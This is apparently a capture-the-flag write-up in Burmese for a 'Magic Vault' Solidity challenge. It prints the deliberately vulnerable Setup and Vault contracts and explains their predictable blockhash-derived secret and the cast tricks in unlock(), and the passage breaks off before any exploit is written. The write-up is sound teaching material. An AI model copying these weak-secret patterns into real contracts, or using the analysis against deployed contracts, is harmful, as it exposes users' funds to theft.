

# Magic Vault

## Challenge description

Alex walked through the monster's dorm, her sword drawn. As she explored, she found a small room hidden behind a heavy curtain. Inside, she saw a small, dark chamber with a single chest in the center. It was the magic vault she had heard rumors of, containing powerful magical artifacts. Excited, Alex approached the chest and touched it, feeling the pulsing energy that radiated from it. But as she tried to open it, she realized it was locked tight by powerful magic. Frustrated, she set out to find the key that would unlock it. She was determined to open the magic vault and find the treasures within.

## Initial analysis

ပထမဆုံး Challenge ကို Source Code .zip file ပေးထားပါတယ်။ အဲ့ Source code ကို download ဆွဲပြီးတော့ ဖြည်ကြည့်လိုက်တဲ့အခါ `Setup.sol` နဲ့ `Vault.sol` ဆိုပြီး ရလာပါတယ်။

### Setup.sol
```{.solidity filename="Setup.sol"}
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Vault} from "./Vault.sol";

contract Setup {
    Vault public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Vault();
    }

    function isSolved() public view returns (bool) {
        return TARGET.mapHolder() != address(TARGET);
    }
}
```

#### Understanding the source code


```solidity
import {Vault} from "./Vault.sol";

Vault public immutable TARGET;
```

ပထမဆုံး `Setup.sol` က `Vault.sol` မှာ ရှိတဲ့ Vault ဆိုတဲ့ Contract ကို အရင်ဦးဆုံး import လုပ်ပါတယ်။

ပြီးတော့ Vault ဆိုတဲ့ Contract Type ကို အသုံးပြုပြီးတော့ `TARGET` variable ကို သတ်မှတ်ပေးပါတယ်။ ဒီမှာ `immutable` ဆိုတာ Code Standard အနေနဲ့ မဖြစ်မနေ ထည့်ရတဲ့ keyword မဟုတ်ပါဘူး။ Contract ကို တည်ဆောက်တဲ့အချိန်မှာ တန်ဖိုးသတ်မှတ်ပေးနိုင်ပြီး deploy လုပ်ပြီးသွားတဲ့အခါ ပြန်ပြောင်းလို့ မရတော့ဘူး ဆိုတဲ့ သဘောပါ။ ဒီ Contract မှာတော့ constructor() ထဲမှာ `TARGET` ရဲ့ တန်ဖိုးကို သတ်မှတ်ပေးထားပါတယ်။

```solidity
constructor() payable {
    require(msg.value == 1 ether);
    TARGET = new Vault();
}
```

Setup ရဲ့ constructor() မှာ `payable` keyword ကို အသုံးပြုပြီးတော့ deploy လုပ်တဲ့ transaction နဲ့အတူ ETH လက်ခံလို့ ရအောင် လုပ်ထားပါတယ်။ constructor() က payable မဟုတ်ရင် deploy လုပ်တဲ့အချိန် ETH တွဲပို့လို့ မရပါဘူး။ ဒီမှာ `msg.value` က အဲ့ transaction နဲ့ တွဲပို့လိုက်တဲ့ ETH ပမာဏကို wei unit နဲ့ ဖော်ပြတာဖြစ်ပြီး 1 ether က 10^18 wei နဲ့ ညီပါတယ်။

constructor() ဆိုတာ Setup Contract ကို deploy လုပ်တဲ့အချိန်မှာ တကြိမ်ပဲ အလုပ်လုပ်ပါတယ်။

ထို့နောက် require() ဆိုတဲ့ Function ကို အသုံးပြုပြီး Setup.sol ကို စတင်ပြီး Deploy လုပ်တဲ့လူက 1 ETH အတိအကျ ထည့်ပေးလား စစ်ဆေးပါတယ်။

 `TARGET = new Vault();`

ထို့နောက် `new Vault()` နဲ့ Vault Contract အသစ်တခုကို deploy လုပ်ပြီး အဲ့ Contract ကို ရည်ညွှန်းတဲ့ တန်ဖိုးကို `TARGET` ထဲမှာ သိမ်းပေးလိုက်ပါတယ်။ Contract ရဲ့ နာမည်ကို သတ်မှတ်တာ မဟုတ်ပါဘူး။ ဒီမှာ `{value: ...}` နဲ့ ETH လွှဲပေးထားတာ မရှိတဲ့အတွက် Setup က လက်ခံထားတဲ့ 1 ETH ကို Vault ဆီ ဆက်ပို့တာ မဟုတ်ဘဲ Setup ထဲမှာပဲ ကျန်နေပါတယ်။

```solidity
function isSolved() public view returns (bool) {
    return TARGET.mapHolder() != address(TARGET);
}
```

ဒီ Challenge တခုလုံး solve ဖြစ်သွားဖို့ အတွက် isSolved() ဆိုတဲ့ Function တခုရှိပါတယ်။

ဒီမှာ သုံးထားတဲ့

* `public` ဆိုတဲ့ keyword က တခြား Contract တခုကနေ လည်း ခေါ်လို့ရနိုင်တယ် လို့ ဆိုလိုတာဖြစ်ပါတယ်။

* `view` ဆိုတဲ့ keyword ကတော့ ဒီ function က blockchain state ကို ဖတ်နိုင်ပေမဲ့ ပြုပြင်ပြောင်းလဲမှု မလုပ်ဘူး ဆိုတဲ့အချိန်မှာ သုံးပါတယ်။ Local variable တွေနဲ့ တွက်ချက်တာ၊ ပေါင်းတာ၊ နှုတ်တာမျိုးကိုတော့ လုပ်လို့ရပါတယ်။ Contract ရဲ့ state variable ကို ပြောင်းတာမျိုး မလုပ်ရဘူး ဆိုတဲ့သဘောပါ။

* `returns (bool)`ဆိုတာက တော့ boolean data type ကို ပြန်ယူမဲ့ အကြောင်း ကြိုပြီး သတ်မှတ်ပေးထားတာပါ။

`return TARGET.mapHolder() != address(TARGET);`

ဒီ Code က Vault Contract ထဲမှာ ရှိတဲ့ `mapHolder()` ဆိုတဲ့ Function ကို ခေါ်ထားတာ ဖြစ်ပြီး ရလာတဲ့ holder address နဲ့ Vault Contract ရဲ့ address ကို နှိုင်းယှဉ်ပါတယ်။ မတူရင် true ပြန်ပေးပြီး တူနေသေးရင် false ပြန်ပေးပါတယ်။ ဒါကြောင့် Challenge solve ဖြစ်ဖို့ holder က Vault address မဟုတ်တော့အောင် ပြောင်းပေးရမှာပါ။


### Vault.sol

```{.solidity filename="Vault.sol" collapse="true"}
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Vault {
    struct Map {
        address holder;
    }

    Map map;
    address public owner;
    bytes32 private passphrase;
    uint256 public nonce;
    bool public isUnlocked;

    constructor() {
        owner = msg.sender;
        passphrase = bytes32(
            keccak256(abi.encodePacked(uint256(blockhash(block.timestamp))))
        );
        map = Map(address(this));
    }

    function mapHolder() public view returns (address) {
        return map.holder;
    }

    function claimContent() public {
        require(isUnlocked);
        map.holder = msg.sender;
    }

    function unlock(bytes16 _password) public {
        uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
        uint128 _input = uint128(_password);
        require(_input != _secretKey, "Case 1 failed");
        require(uint64(_input) == _secretKey, "Case 2 failed");
        require(
            uint64(bytes8(_password)) == uint64(uint160(owner)),
            "Case 3 failed"
        );
        isUnlocked = true;
    }

    function _generateKey(uint256 _reductor) private returns (uint256 ret) {
        ret = uint256(
            keccak256(
                abi.encodePacked(
                    uint256(blockhash(block.number - _reductor)) + nonce
                )
            )
        );
        nonce++;
    }

    function _magicPassword() private returns (bytes8) {
        uint256 _key1 = _generateKey(block.timestamp % 2 + 1);
        uint128 _key2 = uint128(_generateKey(2));
        bytes8 _secret = bytes8(
            bytes16(
                uint128(
                    uint128(
                        bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))
                    ) ^ _key2
                )
            )
        );
        return (_secret >> 32 | _secret << 16);
    }
}
```
#### Understanding the source code

```solidity
struct Map {
    address holder;
}
```

Vault.sol ရဲ့ Vault Contract ထဲမှာ `Map` ဆိုတဲ့ struct တခုကို တည်ဆောက်ထားပါတယ်။ `Map` ဆိုတာ struct ရဲ့ နာမည်ဖြစ်ပြီး `map` ကတော့ အဲ့ struct type နဲ့ ကြေညာထားတဲ့ variable နာမည်ဖြစ်ပါတယ်။ `map` က Solidity keyword မဟုတ်ပါဘူး။ Solidity ရဲ့ `mapping` type နဲ့လည်း မတူပါဘူး။

struct ဆိုသည်မှာ အုပ်စုတခုထဲတွင် `data type` အများအပြား ကို သိမ်းဆည်းပေးထားနိုင်သည့် Custom Data Type ဖြစ်သည်။ ယခု Code တွင် `address holder` တမျိုးတည်းသာ ရှိပါသည်။

```solidity
Map map;
address public owner;
bytes32 private passphrase;
uint256 public nonce;
bool public isUnlocked;
```

public state variable များကို Solidity က `getter function` အလိုအလျောက် ဖန်တီးပေးပြီး အခြားပြင်ပမှ contract များ ဖတ်ရှုနိုင်ရန် ခွင့်ပြုပေးထားပါသည်။ public ဖြစ်တာက အပြင်ကနေ တန်ဖိုးကို ကြိုက်သလို ပြောင်းလို့ရတယ် ဆိုတဲ့သဘော မဟုတ်ပါဘူး။

private variable များကိုတော့ Solidity က `getter function` မဖန်တီးပေးပါ။ ကြေညာထားတဲ့ Contract အတွင်းမှသာ တိုက်ရိုက် ရည်ညွှန်းအသုံးပြုနိုင်ပါတယ်။ ဒါပေမဲ့ blockchain storage ထဲက data ကို လျှို့ဝှက်ပေးထားတာ မဟုတ်တဲ့အတွက် ပြင်ပက storage ဖတ်တဲ့နည်းနဲ့ တန်ဖိုးကို သိနိုင်ပါတယ်။

`Map map;` မှာ visibility မရေးထားတဲ့အတွက် default က internal ဖြစ်ပါတယ်။ `nonce` နဲ့ `isUnlocked` ကို အစတန်ဖိုး သတ်မှတ်မထားတဲ့အတွက် 0 နဲ့ false ကနေ စပါတယ်။

```solidity
constructor() {
    owner = msg.sender;
    passphrase = bytes32(
        keccak256(abi.encodePacked(uint256(blockhash(block.timestamp))))
    );
    map = Map(address(this));
}
```
constructor() ဖြင့် တကြိမ်သာ run မည့် code ဖြစ်ပါသည်။

`owner` ဆိုတဲ့ public variable ထဲမှာ Vault ကို ဖန်တီးတဲ့ Setup Contract ရဲ့ address ကို ထည့်ပေးလိုက်တာဖြစ်ပါတယ်။ Setup ထဲကနေ `new Vault()` ကို ခေါ်ထားတဲ့အတွက် Vault ရဲ့ constructor() ထဲမှာ msg.sender က Setup Contract ဖြစ်ပါတယ်။ Vault Contract ကိုယ်တိုင်ရဲ့ address ကတော့ `address(this)` ဖြစ်ပါတယ်။

```solidity
passphrase = bytes32(
    keccak256(abi.encodePacked(uint256(blockhash(block.timestamp))))
);
```
passphrase ဆိုတာ bytes32 type ရှိတဲ့ private variable တခုဖြစ်ပါတယ်။ ဒီ code က block.timestamp ကို hash လုပ်တာ မဟုတ်ပါဘူး။ လက်ရှိ block ရဲ့ Unix Timestamp ကို block number လို့ ယူပြီး `blockhash()` ထဲ ထည့်ပေးထားတာ ဖြစ်ပါတယ်။
```console
┌──(kali㉿kali)-[~]
└─$ cast block  latest --field number --rpc-url "http://154.57.164.69:37795/rpc"
338

┌──(kali㉿kali)-[~]
└─$ cast block  latest --field timestamp --rpc-url "http://154.57.164.69:37795/rpc"
1791971800
```
block.timestamp ရဲ့ type က uint256 ဖြစ်ပါတယ်။ အပေါ်က ဥပမာအတိုင်း timestamp 1791971800 ကို blockhash() ထဲ ထည့်ပေးရင် block number 1,791,971,800 ရဲ့ hash ကို ရှာမှာပါ။ လက်ရှိ block number က 338 ပဲ ရှိသေးတဲ့အတွက် အဲ့ block က မရောက်သေးပါဘူး။

သို့သော် blockhash() က လက်ရှိ block မတိုင်မီ block 256 ခုအတွင်းက block တွေအတွက်သာ hash ပြန်ပေးနိုင်ပါတယ်။ အဲ့ အကွာအဝေးအပြင်ဘက်က block number၊ လက်ရှိ block number နဲ့ မရောက်သေးတဲ့ block number တွေအတွက် bytes32(0) ကို ပြန်ပေးပါတယ်။

ဒါကြောင့် ဒီဥပမာမှာ blockhash() က zero 32 bytes ဖြစ်တဲ့ `0x0000000000000000000000000000000000000000000000000000000000000000` ကို ပြန်ပေးပါတယ်။ အဲ့ တန်ဖိုးကို uint256 ပြောင်း၊ abi.encodePacked() နဲ့ 32 bytes အဖြစ် encode လုပ်ပြီး keccak256 hash ပြန်ယူပါတယ်။ ရလာတဲ့ hash က `0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563` ဖြစ်ပါတယ်။ keccak256 က bytes32 ကိုပဲ ပြန်ပေးတဲ့အတွက် အပြင်ဆုံး bytes32 cast က တန်ဖိုးကို မပြောင်းပါဘူး။

သတိထားရမှာက passphrase ကို constructor() run တဲ့ block မှာပဲ တွက်ပြီး သိမ်းတာဖြစ်ပါတယ်။ အပေါ်က command တွေက latest block ကို ကြည့်ထားတာဖြစ်လို့ deploy လုပ်ခဲ့တဲ့ block ရဲ့ တန်ဖိုးတွေကို တိုက်ရိုက်ပြထားတာ မဟုတ်ပါဘူး။ Deploy လုပ်တဲ့အချိန်မှာလည်း timestamp က block number ထက် ကြီးနေခဲ့ရင် အထက်က hash ပဲ ရပါမယ်။ အတည်ပြုချင်ရင် deployment block ကို စစ်တာ ဒါမှမဟုတ် Vault ရဲ့ passphrase storage ကို ဖတ်တာ လုပ်နိုင်ပါတယ်။

```solidity
map = Map(address(this));
```

ဒီ code က Map အမည်ရှိတဲ့ struct ထဲက ပထမဆုံးတန်ဖိုး ကို `address(this);` ဆိုပြီး လက်ရှိ Vault Contract ကို သတ်မှတ်ပေးလိုက်တာ ဖြစ်ပါတယ်။

ဒီမှာ `Map(address(this))` နဲ့ struct value အသစ်တခု ဖန်တီးပြီး `map` ထဲမှာ သိမ်းလိုက်တာပါ။ Struct ရဲ့ field တွေကို ကြေညာထားတဲ့ အစီအစဉ်အတိုင်း တန်ဖိုးပေးတဲ့ syntax ကို သုံးထားတဲ့အတွက် `holder` ဆိုတဲ့ နာမည်ကို ထည့်မရေးထားတာဖြစ်ပါတယ်။ `Map({holder: address(this)})` လို့လည်း ရေးလို့ရပါတယ်။ ဒါကြောင့် နောက်ဆုံး map.holder ရဲ့ တန်ဖိုးက Vault Contract address ဖြစ်ပါတယ်။

```solidity
function mapHolder() public view returns (address) {
    return map.holder;
}
```

map.holder ရဲ့ Getter function ဖြစ်ပါတယ် ။ `public` keyword ပါတဲ့ အတွက် အခြား Contract မှလည်း ခေါ်လို့ရပါတယ်။

```solidity
function claimContent() public {
    require(isUnlocked);
    map.holder = msg.sender;
}
```
isUnlocked ဆိုတဲ့ bool variable ကို အရင်စစ်ဆေးပါတယ်။ ဒီနေရာမှာ isUnlocked() getter ကို ခေါ်တာ မဟုတ်ပါဘူး။ isUnlocked က false ဖြစ်ရင် revert ဖြစ်ပြီး true ဖြစ်ရင် map.holder ကို claimContent() function ခေါ်တဲ့ msg.sender ရဲ့ address အဖြစ် ပြောင်းပေးပါတယ်။ Wallet က တိုက်ရိုက်ခေါ်ရင် wallet address၊ Contract က ခေါ်ရင် အဲ့ Contract address ဖြစ်ပါမယ်။ ဒါကြောင့် Challenge ကို solve ဖို့ unlock() နဲ့ isUnlocked ကို true ဖြစ်အောင် လုပ်ပြီး claimContent() ကို ဆက်ခေါ်ရပါမယ်။

```solidity
function unlock(bytes16 _password) public {
    uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
    uint128 _input = uint128(_password);
    require(_input != _secretKey, "Case 1 failed");
    require(uint64(_input) == _secretKey, "Case 2 failed");
    require(
        uint64(bytes8(_password)) == uint64(uint160(owner)),
        "Case 3 failed"
    );
    isUnlocked = true;
}

function _generateKey(uint256 _reductor) private returns (uint256 ret) {
    ret = uint256(
        keccak256(
            abi.encodePacked(
                uint256(blockhash(block.number - _reductor)) + nonce
            )
        )
    );
    nonce++;
}

function _magicPassword() private returns (bytes8) {
    uint256 _key1 = _generateKey(block.timestamp % 2 + 1);
    uint128 _key2 = uint128(_generateKey(2));
    bytes8 _secret = bytes8(
        bytes16(
            uint128(
                uint128(
                    bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))
                ) ^ _key2
            )
        )
    );
    return (_secret >> 32 | _secret << 16);
}
```
ပထမဆုံး _generateKey ဆိုတဲ့ function ကို ကြည့်ရမှာဖြစ်ပြီးတော့ Contract အတွင်းမှာသာ ခေါ်လို့ ရမဲ့ private function ဖြစ်ပါတယ်။ `returns (uint256 ret)` ဆိုပြီး return variable ကို နာမည်ပေးထားတဲ့အတွက် ret ထဲမှာ တန်ဖိုးထည့်ပြီး function အဆုံးရောက်ရင် အဲ့တန်ဖိုးကို ပြန်ပေးပါတယ်။ `return ret;` လို့ သီးသန့် ထပ်ရေးဖို့ မလိုပါဘူး။

အခုရောက်နေတဲ့ block number ထဲက _reductor ကို နှုတ်လိုက်ရင် အရင် block number ရမှာဖြစ်ပါတယ်။ အဲ့ အရင် block ရဲ့ hash ကို blockhash() နဲ့ ယူပြီး uint256 အဖြစ် cast လုပ်ပါတယ်။ ဆိုလိုတာက အရင် block ရဲ့ hash ကြီးကို integer value အဖြစ် convert လုပ်လိုက်တာပါ။

ပြီးရင် ရလာတဲ့ integer တန်ဖိုးကို လက်ရှိ nonce နဲ့ ပေါင်းပါတယ်။ အဲ့ ပေါင်းလဒ်ကို abi.encodePacked() နဲ့ encode လုပ်၊ keccak256 hash ယူပြီး uint256 ပြန်ပြောင်းထားတဲ့ တန်ဖိုးကမှ ret ဖြစ်ပါတယ်။ အဲ့ဒီနောက် nonce ကို 1 တိုးပေးပါတယ်။

ဒီမှာ Solidity 0.8.x ရဲ့ checked arithmetic ကို သုံးထားတဲ့အတွက် ပေါင်းတာ၊ နှုတ်တာမှာ uint256 အကွာအဝေးကျော်ရင် revert ဖြစ်ပါတယ်။ ဥပမာ block.number က _reductor ထက် ငယ်နေရင် နှုတ်တဲ့နေရာမှာ revert ဖြစ်မှာပါ။

_magicPassword() function ကတော့ private function ဖြစ်ပြီး bytes8 တန်ဖိုးကို ပြန်ပေးပါတယ်။ အဲ့ဒီ function ထဲမှာ _key1 နဲ့ _key2 တန်ဖိုးကို အရင်တွက်ပါမယ်။

_key1 က _generateKey function ကို အသုံးပြုပါတယ်။ ပထမဆုံး `block.timestamp % 2 + 1` ကို တွက်ပြီး ရလာတဲ့ တန်ဖိုးကို _reductor အဖြစ် ပေးပါတယ်။ Timestamp က စုံကိန်းဆိုရင် 1၊ မကိန်းဆိုရင် 2 ရပါမယ်။ ဒါကြောင့် လက်ရှိ block မတိုင်မီ 1 block ဒါမှမဟုတ် 2 blocks အကွာက hash ကို သုံးပြီး _key1 တွက်တာဖြစ်ပါတယ်။ _generateKey ရဲ့ return တန်ဖိုးကို % 2 + 1 လုပ်တာ မဟုတ်ပါဘူး။

_key2 ကလည်း _generateKey ကို အသုံးပြုပါတယ်။ _reductor ရဲ့ တန်ဖိုးကို အမြဲ 2 အဖြစ် ထားပါတယ်။ ပြီးတော့ ရလာတဲ့ တန်ဖိုး ကို uint128 ပြောင်းပါတယ်။ သို့သော် _generateKey function ရဲ့ တန်ဖိုးက uint256 ဖြစ်တဲ့ အတွက် uint128 အဖြစ် cast လုပ်တဲ့အခါ 256-bit ထဲကနေ အရှေ့ဆုံး 128-bit ကို truncate လုပ်လိုက်ပါတယ်။

```{.text layout="flow"}
y = x mod 2^{128}

y = x ကို 2^{128} နဲ့ စားလို့ ရမဲ့ အကြွင်း
```

ဆိုလိုတဲ့ သဘောက explicit cast လုပ်တဲ့အချိန်မှာ အနောက်ဆုံး 128-bit ပဲ ကျန်ခဲ့တာပါ။ ဥပမာ x က 2^128 ဖြစ်ရင် uint128(x) က 0၊ x က 2^128 + 1 ဖြစ်ရင် 1 ရပါမယ်။ 1 ကနေ ပြန်စတာ မဟုတ်ဘဲ 0 ကနေ ပြန်စတဲ့သဘောပါ။ ဒါက cast လုပ်တဲ့အခါ ဖြတ်ချတဲ့ အပြုအမူဖြစ်ပြီး Solidity 0.8.x မှာ ပုံမှန် integer ပေါင်းလို့ overflow ဖြစ်ရင်တော့ revert ဖြစ်ပါတယ်။

_secret ကို တွက်ထုတ်ဖို့ ပထမ bytes32 passphrase ကို uint256 passphrase အဖြစ် အရင် cast လုပ်လိုက်ပါတယ်။ ပြီးတော့ _key1 နဲ့ ^ XOR လုပ်လိုက်ရင် xored uint256 ထွက်ပါတယ် ။ ဒါပေမဲ့ ထပ်ပြီး uint256 cast ထားလည်း တန်ဖိုး က မပြောင်းလဲပါ။



```{.text layout="flow"}
 XOR ရဲ့ သဘောတရား က

နေရာတူ bit ၂ ခု မတူရင် 1 ဖြစ်ပြီး
နေရာတူ bit ၂ ခု တူညီရင် 0 ဖြစ်ပါတယ်

```


ထို့နောက် ရလာတဲ့ uint256 value ကို bytes32 အဖြစ် ပြောင်းပါတယ်။ bytes32 တန်ဖိုးကို bytes16 အဖြစ် cast လုပ်လိုက်တဲ့အခါ အရှေ့ဆုံး 16 bytes ကို ယူပြီး အနောက်ဆုံး 16 bytes ကို ဖြတ်ချပါတယ်။ [00] နဲ့ အစားထိုးတာ မဟုတ်ပါဘူး။

```{.text collapse="true" title="Bytes32 to bytes16"}
ဥပမာ passphrase နဲ့ _key1 ကို XOR လုပ်ပြီး ရလာတဲ့ bytes32 က

0x11223344556677889900aabbccddeeffffeeddccbbaa00998877665544332211

အရှေ့ဆုံး 16 bytes — ယူမဲ့ အပိုင်း
[11][22][33][44][55][66][77][88]
[99][00][aa][bb][cc][dd][ee][ff]

အနောက်ဆုံး 16 bytes — ဖြတ်ချမဲ့ အပိုင်း
[ff][ee][dd][cc][bb][aa][00][99]
[88][77][66][55][44][33][22][11]

bytes16 result : 0x11223344556677889900aabbccddeeff
```

ရလာတဲ့ bytes16 ကို uint128 ပြောင်းတဲ့အခါ size တူတဲ့အတွက် bit တွေ မပြောင်းပါဘူး။ ဒါပေမဲ့ ဒီနေရာမှာ _key2 နဲ့ XOR ထပ်လုပ်ထားတာကို မမေ့ရပါဘူး။ အဲ့ XOR ကြောင့် တန်ဖိုး ပြောင်းနိုင်ပါတယ်။ နောက်ထပ် uint128 cast ကတော့ uint128 ဖြစ်ပြီးသားတန်ဖိုးကို ထပ် cast လုပ်တာဖြစ်လို့ တန်ဖိုးမပြောင်းပါဘူး။

```solidity
uint128 firstHalf = uint128(
    bytes16(bytes32(uint256(passphrase) ^ _key1))
);
uint128 mixed = firstHalf ^ _key2;
bytes8 _secret = bytes8(bytes16(mixed));
```

ဒီ code က မူလ expression အရှည်ကြီးကို ဖတ်ရလွယ်အောင် ခွဲရေးထားတာပါ။ ဥပမာ အောက်က တန်ဖိုးတွေနဲ့ တွက်ကြည့်ပါမယ်။

```text
firstHalf : 0x11223344556677889900aabbccddeeff
_key2     : 0x01010101010101010000000000000000
            ----------------------------------
mixed     : 0x10233245546776899900aabbccddeeff
```

mixed ကို bytes16 ပြောင်းပြီး bytes8 ထပ်ပြောင်းတဲ့အခါ အရှေ့ဆုံး 8 bytes ကိုပဲ ယူပါတယ်။

```text
[10][23][32][45][54][67][76][89] --- < ယူမဲ့ အပိုင်း >
[99][00][aa][bb][cc][dd][ee][ff] --- < ဖြတ်ချမဲ့ အပိုင်း >

bytes8 result : 0x1023324554677689
```

ဒါဆိုရင် ဒီဥပမာအတွက် _secret တန်ဖိုးရပါပြီ။ အောက်က shift ဥပမာမှာလည်း အဲ့ တန်ဖိုးကိုပဲ ဆက်သုံးပါမယ်။

```solidity
return (_secret >> 32 | _secret << 16);
```

ရလာတဲ့ bytes8 _secret တန်ဖိုးကို ညာဘက် 32-bit ရွှေ့ထားတဲ့ ရလဒ်တခုနဲ့ ဘယ်ဘက် 16-bit ရွှေ့ထားတဲ့ ရလဒ်တခု သီးသန့်တွက်ပါတယ်။ ညာဘက်ရွှေ့ပြီးသားကို ဆက်ပြီး ဘယ်ဘက်ရွှေ့တာ မဟုတ်ပါဘူး။ ရလဒ်နှစ်ခုကို | operator နဲ့ OR ပါမယ်။

```{.text collapse="true" title="Right shift"}
Example

မူလ:
[10] [23] [32] [45] [54] [67] [76] [89]

ညာဘက် ၄ ကွက် ရွှေ့:
[00] [00] [00] [00] [10] [23] [32] [45]  →  [54] [67] [76] [89]
                                          ဘောင်အပြင်ရောက်လို့ ပျောက်

```
```{.text layout="flow"}
ရလဒ် : right == 0x0000000010233245;

```

```{.text collapse="true" title="Left shift"}
Example

မူလ:
              [10] [23] [32] [45] [54] [67] [76] [89]

ဘယ်ဘက် ၂ ကွက် ရွှေ့:
[10] [23]  ←  [32] [45] [54] [67] [76] [89] [00] [00]
ပျောက်
```
```{.text layout="flow"}
ရလဒ် : left == 0x3245546776890000;
```

ရလာတဲ့ left နဲ့ right value တွေကို OR မယ် ဆိုရင် အဖြေက ဒီလိုရပါတယ်။ bitwise OR ရဲ့ သဘောတရားက နေရာတူ bit နှစ်ခုကို နှိုင်းယှဉ်ပြီး တစ်ခုခုက 1 ဖြစ်ရင် 1 ထုတ်ပေးတယ်။

```{.text collapse="true" title="Bitwise OR"}
right = 00 00 00 00 10 23 32 45
left  = 32 45 54 67 76 89 00 00
        -----------------------
OR    = 32 45 54 67 76 AB 32 45


0x10 | 0x76
Binary ပြောင်းကြည့်ရင်—


0x10 = 0001 0000
0x76 = 0111 0110
       ---------
OR   = 0111 0110 = 0x76
0x10 ထဲက 1 bit က 0x76 ထဲမှာ ရှိပြီးသားဖြစ်လို့ ရလဒ်က 0x76 ပဲဖြစ်ပါတယ်။

0x23 | 0x89

0x23 = 0010 0011
0x89 = 1000 1001
       ---------
OR   = 1010 1011 = 0xAB
ဒါကြောင့် နောက်ဆုံးရလဒ်က


0x3245546776ab3245
```

### Architecture overview

```{.text collapse="true" title="Architecture"}
             Setup ကို deploy လုပ်သူ
                       │
                       │ 1 ETH နဲ့ deploy
                       ▼
┌─────────────────────────────────────────────┐
│                 Setup                       │
│                                             │
│  constructor()                              │
│  ├── msg.value == 1 ether ဖြစ်ရမယ်           │
│  └── new Vault() နဲ့ Vault အသစ်ဖန်တီး        │
│                                             │
│  TARGET ────────────────────────────────────┼─────┐
│  ဖန်တီးထားတဲ့ Vault ကို ရည်ညွှန်းထားတယ်      │     │
│                                             │     │
│  isSolved()                                 │     │
│  └── Vault ရဲ့ holder ပြောင်းသွားပြီလား စစ်  │     │
└─────────────────────────────────────────────┘     │
                                                   ▼
┌──────────────────────────────────────────────────────┐
│                       Vault                          │
│                                                      │
│  သိမ်းထားတဲ့ Data                                   │
│  ├── map.holder   → လက်ရှိ Map ကိုင်ဆောင်သူ           │
│  ├── owner        → Vault ကို ဖန်တီးသူ                │
│  ├── passphrase   → secret တွက်ရာမှာ သုံးတဲ့တန်ဖိုး    │
│  ├── nonce        → key တွက်တိုင်း တိုးတဲ့ counter     │
│  └── isUnlocked   → သော့ဖွင့်ပြီးပြီလား                │
│                                                      │
│  အပြင်က ခေါ်နိုင်တဲ့ Function များ                    │
│  ├── mapHolder()                                     │
│  ├── unlock(bytes16 password)                         │
│  └── claimContent()                                  │
│                                                      │
│  အတွင်းပိုင်း Helper Function များ                   │
│  ├── _magicPassword()                                │
│  └── _generateKey(reductor)                           │
└──────────────────────────────────────────────────────┘
```

## Exploiting the vulnerabilities

ဒီ Smart Contract ကို Exploit မလုပ်ခင်မှာ အောက်က unlock() function ကို အရင်ဆုံး နားလည်ထားဖို့လိုပါတယ်။

```solidity
function unlock(bytes16 _password) public {
    uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
    uint128 _input = uint128(_password);
    require(_input != _secretKey, "Case 1 failed");
    require(uint64(_input) == _secretKey, "Case 2 failed");
    require(
        uint64(bytes8(_password)) == uint64(uint160(owner)),
        "Case 3 failed"
    );
    isUnlocked = true;
}
```

ခုနက _magicPassword() function ကနေ bytes8 တန်ဖိုးကို return ပြန်ပေးတာ သိပြီးပါပြီ။ အဲ့ တန်ဖိုးကို unlock() function ထဲမှာ ဘယ်လိုပြန်သုံးထားလဲ ဆိုတာ အရင်ကြည့်ပါမယ်။

```solidity
uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
```

ဒီမှာ _magicPassword() က ရလာတဲ့ bytes8 ကို bytes16 အဖြစ် အရင် cast လုပ်ပါတယ်။ bytes type ကို အငယ်ကနေ အကြီး ပြောင်းတဲ့အချိန်မှာ အနောက်ဘက်မှာ [00] တွေ ထပ်ဖြည့်ပေးပါတယ်။

```text
ဥပမာ _magicPassword() က ပြန်ပေးတဲ့ တန်ဖိုးက

bytes8  : 0x3245546776ab3245
bytes16 : 0x3245546776ab32450000000000000000
```

ပြီးတော့ >> 64 ဆိုပြီး ညာဘက်ကို 64-bit ရွှေ့ပါတယ်။ 8-bit က 1 byte ဖြစ်တဲ့အတွက် 64-bit ဆိုရင် 8 bytes ဖြစ်ပါတယ်။

```{.text collapse="true" title="64-bit shift"}
မူလ:
[32][45][54][67][76][ab][32][45][00][00][00][00][00][00][00][00]

ညာဘက် 8 bytes ရွှေ့ပြီး:
[00][00][00][00][00][00][00][00][32][45][54][67][76][ab][32][45]

bytes16 : 0x00000000000000003245546776ab3245
```

နောက်ဆုံး uint128 အဖြစ် cast လုပ်လိုက်တော့ အဲ့ bit တွေကိုပဲ integer တန်ဖိုးအဖြစ် ယူလိုက်တာဖြစ်ပါတယ်။ ဒါကြောင့် _secretKey ကို uint128 နဲ့ သိမ်းထားပေမဲ့ တကယ်တန်ဖိုးရှိတဲ့ အပိုင်းက အနောက်ဆုံး 64-bit ထဲမှာပဲ ရှိပါတယ်။

```solidity
uint128 _input = uint128(_password);
```

_password က bytes16 ဖြစ်တဲ့အတွက် 128-bit ရှိပါတယ်။ uint128 ကို ပြောင်းလိုက်တဲ့အချိန်မှာ size တူတဲ့အတွက် bit တွေ ဖြတ်ချတာ မရှိပါဘူး။ ကျွန်တော်တို့ ထည့်ပေးလိုက်တဲ့ password ကို integer အဖြစ် ပြန်ယူလိုက်တာပါ။

ဒီတော့ password ကို အရှေ့ပိုင်း 8 bytes နဲ့ အနောက်ပိုင်း 8 bytes ဆိုပြီး နှစ်ပိုင်းခွဲကြည့်ပါမယ်။

```text
                 bytes16 _password

[ အရှေ့ပိုင်း 8 bytes ][ အနောက်ပိုင်း 8 bytes ]
        upper                  lower
